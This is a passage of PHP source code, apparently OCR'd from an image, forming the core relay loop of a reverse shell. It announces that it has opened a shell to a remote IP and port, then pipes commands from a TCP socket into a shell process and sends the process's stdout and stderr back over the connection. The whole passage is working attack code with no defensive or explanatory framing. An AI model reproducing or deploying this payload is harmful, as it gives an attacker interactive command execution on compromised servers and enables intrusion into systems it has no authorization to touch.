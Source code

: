 ```
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
```